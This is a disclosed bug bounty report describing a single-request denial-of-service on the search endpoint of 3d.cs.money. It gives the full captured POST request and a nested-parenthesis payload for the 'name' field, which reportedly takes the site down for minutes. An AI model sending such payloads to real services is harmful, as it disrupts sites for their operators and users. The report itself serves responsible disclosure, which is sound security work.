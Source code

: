 # Application DOS via specially crafted payload on 3d.cs.money

## Report Details
- **Report ID**: 993582
- **URL**: https://hackerone.com/reports/993582
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-09-28T18:28:49.678Z
- **Disclosed**: 2020-10-01T11:46:38.782Z

## Reporter
- **Username**: enigmaticjohn
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: cs_money

## Vulnerability Information
## Summary:
Hello Team,
While testing it was observed that on **3d.cs.money** a DOS is possible via specially crafted request using only single request from single machine on search bar.
Though I am aware of the Out of Scope policy "Any activity that could lead to the disruption of our service (DoS)", this scenario is different, here we are only using one Request and depending on the payload, the DOS time can be varied.

## Steps To Reproduce:

  1. Go to https://3d.cs.money/item/default
  2. Turn ON the intercept and type something in search box.
  3. A POST request will be captured as follows:

```
POST /api/skin/search HTTP/1.1
Host: 3d.cs.money
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Content-Length: 32
Origin: https://3d.cs.money
Connection: close
Referer: https://3d.cs.money/item/default
Cookie: __cfduid=d38bfad20d6ec52ba0a6af9014d27a2e81601313370; TEST_GROUP=2; UUID3D=to4nZuWnRSS4A7G; _ga=GA1.1.214308118.1601313374; _ga_HY7CCPCD7H=GS1.1.1601313373.1.1.1601316641.57; _gid=GA1.2.24460124.1601313377

{"name":"[Payload here]","item_name":"AK-47"}
```
  4. Send it to the Repeater.
  5. Put the following payload at [Payload here]
```(((((()0)))))```

  6. This will take down the host for few minutes.
  7. If we add more parenthesis like ```((((((()0))))))``` , the site will be down for more time.

## Supporting Material/References:
PFA screenshot.

## Impact

Web server can be made inaccessible for any amount of time using only single request.

## Attachments
- host_site.jpeg
